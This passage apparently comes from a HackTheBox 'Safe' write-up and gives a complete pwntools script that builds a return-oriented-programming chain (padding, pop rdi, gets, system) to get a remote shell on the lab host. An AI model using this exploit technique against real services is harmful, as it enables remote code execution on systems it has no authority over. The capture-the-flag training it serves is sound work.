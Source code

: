 ![Img](/assets/posts_details/Safe/images/gdb.png)

Finally we can craft our payload with python's pwntools library, which makes everything much easier:

```py
import binascii
from pwn import *

context(os="linux", arch="amd64")

p = remote("safe.htb", 1337)

junk = "A"*120 # junk

pop_rdi  = p64(0x40120b)
gets     = p64(0x401060)
sys      = p64(0x401040) # can be either this address or the one from main
data_seg = p64(0x404038)

payload = junk
payload += pop_rdi + data_seg + gets
payload += pop_rdi + data_seg + sys

p.recvline()
p.sendline(payload)
p.sendline("/bin/sh")

p.interactive()
```

